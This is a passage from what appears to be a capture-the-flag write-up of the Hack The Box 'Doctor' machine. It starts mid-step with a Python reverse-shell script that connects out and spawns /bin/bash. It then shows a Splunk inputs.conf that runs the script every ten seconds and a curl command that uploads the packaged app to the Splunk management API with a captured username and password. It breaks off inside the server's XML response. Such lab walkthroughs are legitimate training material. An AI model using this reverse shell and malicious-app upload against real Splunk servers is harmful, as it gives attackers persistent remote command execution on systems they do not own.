     ```py
    import sys,socket,os,pty

    ip="0.0.0.0"
    port="12345"
    s=socket.socket()
    s.connect((ip,int(port)))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn('/bin/bash')
    ```
3. Create a file `inputs.conf` and place it in the ./default with following contents. This will trigger the payload every 10 seconds.
   
    ```bash
    [script://./bin/reverse_shell.py]
    disabled = 0
    interval = 10
    sourcetype = pentest
    ```

4. Zip the file.
    ```bash
    tar -cvzf rev1.tar.gz ./splunk
    ```
5. Serve the zip file from a python server. Upload the file to splunk using curl and `shauns` creds. The documentation for this can be found [here](https://docs.splunk.com/Documentation/Splunk/8.0.5/RESTREF/RESTapps). Mention the tar file url as the name.

    ```bash
    kali@kali:~/Desktop/htb/doctor$ curl -k -u shaun:Guitar123 https://doctor.htb:8089/services/apps/local  -d "filename=true&name=http://10.10.14.27:8000/rev1.tar.gz"
    <?xml version="1.0" encoding="UTF-8"?>
    <!--This is to override browser formatting; see server.conf[httpServer] to disable. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . .-->
    <?xml-stylesheet type="text/xml" href="/static/atom.xsl"?>
    <feed xmlns="http://www.w3.org/2005/Atom" xmlns:s="http://dev.splunk.com/ns/rest" xmlns:opensearch="http://a9.com/-/spec/opensearch/1.1/">
      <title>localapps</title>
      <id>https://doctor.htb:8089/services/apps/local</id>
      <updated>2020-11-01T08:21:18+01:00</updated>
      <generator build="a1a6394cc5ae" version="8.0.5"/>
      <author>
        <name>Splunk</name>
      </author>
      <link href="/services/apps/local/_new" rel="create"/>
      <link href="/services/apps/local/_reload" rel="_reload"/>
      <opensearch:totalResults>1</opensearch:totalResults>
      <opensearch:itemsPerPage>30</opensearch:itemsPerPage>
      <opensearch:startIndex>0</opensearch:startIndex>
      <s:messages/>
      <entry>
        <title>splunk</title>
        <id>https://doctor.htb:8089/servicesNS/nobody/system/apps/local/splunk</id>
        <updated>1970-01-01T01:00:00+01:00</updated>
        <link href="/servicesNS/nobody/system/apps/local/splunk" rel="alternate"/>
        <author>